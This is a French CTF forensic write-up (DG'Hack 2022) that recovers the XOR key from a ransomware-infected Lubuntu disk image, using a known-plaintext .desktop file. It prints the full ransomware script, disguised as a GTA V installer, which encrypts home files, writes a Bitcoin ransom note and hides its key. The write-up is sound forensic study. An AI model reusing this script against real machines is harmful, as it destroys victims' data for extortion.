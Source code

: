 ```yaml
---
createdAt: 2022-11-25
title: "[DG'Hack 2022 - Forensic] Pas un bon nom"
description: "Pas un bon nom is a challenge from DG'hack CTF."
type: 'Writeups'
tags: ["Forensic"]
---
```


# Not a good name - Pas Un Bon Nom

> author : malon 

### Intro 

> I was just sitting there on my PC, m'kay? I'm downloading movies and stuff, mkay? And then there's this weird message that I have to pay Dogecoin to decrypt my data. I didn't do it... so now my data is encrypted :( So here, take the hard drive, it's not like it's useful now... Unless it was possible to find the key used by that evil hacker, m'kay? Would you like it? You'd be lovely thank you!

### Initial step

```bash
ls 
#pc-jeane.ova
```

ova -> virtualbox

once started, we now know that the OS is Lubuntu

```bash
ls
#Desktop    Downloads           Music     Public                          Templates
#Documents  GTA_V_installer.py  Pictures  READ_TO_RETRIEVE_YOUR_DATA.txt  Videos
```

The two files with capitalized names stand out, and indeed
![image-20221111230502233](https://taurine.vercel.app/images/blog/dghack2022/image5.png)

It seems that the owner has downloaded a lot of stuff including a supra legit GTA-V.

### In-depth investigation

*GTA_V_installer.py*

```python
#!/bin/python3

import os
import fileinput
import sys

main_folder = "./"

def encryptDecrypt(inpDataBytes):

    # Define XOR key
    keyLength = len(xorKey)
 
    # calculate length of input string
    length = len(inpDataBytes)
 
    # perform XOR operation of key
    # with every byte
    for i in range(length):
        inpDataBytes[i] = inpDataBytes[i] ^ ord(xorKey[i % keyLength])

    return inpDataBytes

if __name__ == '__main__':
    # list all the files in the main folder, and its subfolders
    #list_of_files = [main_folder + f for f in os.listdir(main_folder) if os.path.isfile(main_folder + f) and not f.startswith('.')]
    list_of_files = []
    for root, dirs, files in os.walk(main_folder):
        for file in files:
            if not '/.' in os.path.join(root, file):
                # get the file name
                list_of_files.append(os.path.join(root, file))
    print(list_of_files)
    print("\n")

    xorKey = input("Enter the key you received after following the instructions in READ_TO_RETRIEVE_YOUR_DATA.txt: ")

    for file in list_of_files:
        if "GTA_V_installer.py" not in file:
            with open(file, 'rb') as f:
                data = bytearray(f.read())
                print("data : " + str(data) + "\n")
                encrypted_data = encryptDecrypt(data)
                print("encrypted : " + str(encrypted_data) + "\n")
            with open(file, 'wb') as f:
                f.write(encrypted_data)

    # Create a READ_TO_RETRIEVE_YOUR_DATA.txt file
    with open(main_folder + "READ_TO_RETRIEVE_YOUR_DATA.txt", 'w') as f:
        f.write("Your PC is now encrypted.\nThe only way you may retrieve your data is by sending 1000 Bitcoins to the following address: 1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa\n")
        f.write("Add a message to the Bitcoin transfer with your email address.\nThe code to decrypt your data will be sent automatically to this email.\n")
        f.write("Once you get this code, simply run \"python GTA_V_installer.py\" and input your code.\n")
        f.write("I'm very sorry for the inconvenience. I need to feed my family.\n")
        f.write("HODL.\n")

    # I replace the line where the key is defined, that way I can use the same script for decryption without leaving any trace of the key
    is_edited = False
    for line in fileinput.input("./GTA_V_installer.py", inplace=1):
        if "xorKey = " in line and not is_edited:
            line = "    xorKey = input(\"Enter the key you received after following the instructions in READ_TO_RETRIEVE_YOUR_DATA.txt: \")\n"
            is_edited = True
        sys.stdout.write(line)
```

All the non-hidden files present in /home/jeanne have been encrypted but fortunately, the encryption is simple, the files have just been XORied with a key.

reminder : 
$$
a \oplus b = c \newline
a \oplus c = b
$$
If we take a closer look at the list of encrypted files, we notice the 

- network.desktop
- trash-can.desktop
- user-home.desktop
- computer.desktop

These are the files that allow you to create shortcuts for launching applications from the desktop, by checking a little, I realize that they often have the same format, ( as long as there is no comment), but I decide to turn on a vm lubuntu that I had on hand to go and look for these files that have very strong chances to be the same

I get the two computer.desktop that I display both in hexa

![image-20221111233202365](https://taurine.vercel.app/images/blog/dghack2022/image6.png)


Given computer(1).desktop=A (original file) and computer.desktop=C (our encrypted file) 

if you want to find the encryption key for the xor operation, you just have to xor A and C (to obtain B)

![image-20221111233550094](https://taurine.vercel.app/images/blog/dghack2022/image7.png)

At a glance, the key appears to us

```bash
REdIQUNLezdIMTVfMVNfN0gzX0szWV9HMVYzTl83MF83SDNfR1RBX1ZfUjRONTBNVzRSM19WMUM3MU01fQo=
```

But it looks like base64 encoded string so : 

```bash
echo -n "REdIQUNLezdIMTVfMVNfN0gzX0szWV9HMVYzTl83MF83SDNfR1RBX1ZfUjRONTBNVzRSM19WMUM3MU01fQo=" | base64d -d
#DGHACK{***...}
```

Here is our flag :)
